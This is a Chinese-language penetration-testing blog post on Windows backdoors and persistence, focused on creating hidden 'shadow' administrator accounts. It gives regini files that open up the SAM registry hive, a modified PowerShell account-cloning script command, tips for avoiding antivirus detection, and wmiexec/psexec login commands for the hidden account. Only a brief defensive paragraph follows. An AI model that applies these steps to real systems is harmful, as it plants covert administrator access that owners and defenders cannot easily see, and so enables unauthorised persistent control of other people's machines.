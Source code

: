 ```yaml
---
layout: post
title: Backdoor and persistence-Windows
date: 2020-01-31 23:30:00
tags: 域渗透 backdoor persistence
categories: hack  
author: PythonPig
---
```

* content
{:toc}

这篇文章主要记录自己使用的一些Windows后门和权限维持的方法，大部分来自网络，同时会记录一些自己在使用过程中踩的坑，方法会持续更新。  

{:refdef: style="text-align: center;"}
![backdoor](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Backdoor%20and%20persistence-Windows/backdoor.png?raw=true)
{: refdef}   
图片来源于https://xz.aliyun.com/t/4842




### \#0x00 影子账户:
影子账户指的是用户名以$结尾，具有administrator权限，使用net user和控制面板看不到的账户。  
下面添加影子账户的方法不适用于DC(域控)，因为该方法的隐藏利用了本地帐号保存在注册表HKEY_LOCAL_MACHINE\SAM\SAM中的信息，但是域控不存在本地账户： 
```
There is no local account on dc(domain controller)
Please understand that when a Windows server is promoted to a domain controller, the server no longer uses the local account (Security Accounts Manager [SAM]) database during normal operations to store users and groups. When the promotion is complete, the new domain controller has a copy of the Active Directory database in which it stores users, groups, and computer accounts. The SAM database is present, but it is inaccessible when the server is running in Normal mode. The only time that the local SAM database is used is when you boot into Directory Services Restore mode or the Recovery Console. 
If this new domain controller is the first domain controller in a new domain, the local SAM database that the new domain controller contained as a stand-alone server is migrated to the Active Directory database that is created during the promotion. All of the local user accounts that the local SAM database contained when it had been a stand-alone server are migrated from the local SAM database to the Active Directory database. In addition, any permissions that had been assigned to the local users, such as, NTFS permissions, are retained when the users are migrated to the Active Directory database.
 
```  
1、分配注册表权限  
 
因为默认情况下，只用nt authority\system可以编辑HKEY_LOCAL_MACHINE\SAM\SAM，因此需要给administrator分配权限，regini的使用可以查看使用帮助。  
```
regini up.ini
```    
up.ini的内容如下:  
```
HKEY_LOCAL_MACHINE\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator [1 17]
```

2、使用powershell脚本添加影子账户  
这里使用三好学生的脚本添加影子账户，[脚本：Windows-User-Clone](https://github.com/3gstudent/Windows-User-Clone)，这个脚本需要system权限，因为注册表的权限已经分配，修改下脚本使脚本可以在administrator权限下运行，[修改后的脚本](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Backdoor%20and%20persistence-Windows/Windows-User-Clone.ps1)，添加的用户名和密码在文件的最后一行。  
```
powershell.exe -file Windows-User-Clone.ps1
```
注：使用wmiexec.py和psexec.py远程操作时，会触发杀软，建议远程桌面登录后执行powershell脚本。  

3、添加成功后，恢复注册表权限  
```
regini down.ini  
```
down.ini的内容如下:  
```
HKEY_LOCAL_MACHINE\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator [17]
```

4、添加帐号的使用  
RDP:直接使用，用户名就是就是添加的用户，如：username$  
wmi:wmiexec.py "username$"@10.100.100.100  
psexe:psexec.py "username$"@10.100.100.100  
使用wmi或psexe时若提示“第一次登录需要修改密码”，则使用RDP在登录时修改密码。  

5、防御  
针对隐藏帐户的利用，查看注册表HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\即可。  
当然，默认管理员权限(administrator)无法查看，需要分配权限或是提升至Sytem权限，可打开注册表编辑器(regedit.exe)直接分配权限。    

### 参考
* [渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)
